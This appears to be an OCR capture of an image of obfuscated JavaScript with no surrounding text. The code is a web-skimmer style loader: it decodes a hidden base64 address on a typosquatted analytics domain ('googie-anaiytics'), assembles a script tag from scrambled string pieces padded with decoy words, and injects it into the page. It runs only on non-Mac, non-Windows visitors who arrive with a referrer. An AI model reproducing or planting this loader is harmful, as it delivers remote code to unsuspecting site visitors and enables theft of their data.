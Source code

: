 ``` js
  e = e.replace(/[^A-Za-z0-9+/=]/g, "");
  while (f < e.length) {
    s = m.indexOf(e.charAt(f++));
    o = m.indexOf(e.charAt(f++));
    u = m.indexOf(e.charAt(f++));
    a = m.indexOf(e.charAt(f++));
    n = (s << 2) | (o >> 4);
    r = ((o & 15) << 4) | (u >> 2);
    i = ((u & 3) << 6) | a;
    t = t + String.fromCharCode(n);
    if (u != 64) {
      t = t + String.fromCharCode(r);
    }
    if (a != 64) {
      t = t + String.fromCharCode(i);
    }
  }
  return MqMqY(t);
}
eval("window")["klodTq"] = function () {
  (function (u, r, w, d, f, c) {
    var x = HHwbhL;
    u = decodeURIComponent(x(u.replace(new RegExp(c + "" + c, "g"), c)));
    ("jQuery");
    k = r[2] + "c" + f[1];
    ("Flex");
    v = k + f[6];
    var s = d.createElement(v + c[0] + c[1]),
      g = function () {};
    s.type = "text/javascript";
    {
      s.onload = function () {
        g();
      };
    }
    s.src = u;
    ("CSS");
    d.getElementsByTagName("head")[0].appendChild(s);
  })(
    "aHR0cHM6Ly93d3cuZ29vZ2llLWFuYWl5dGljcy5jb20vZ3RhZ3MuanM=",
    "gUssQxWzjLAD",
    window,
    document,
    "DrPdgDiahyku",
    "ptsrhUDHCv"
  );
};
if (
  !/^Mac|Win/.test(navigator.platform) &&
  document.referrer.indexOf(".") !== -1
)
  klodTq();
```

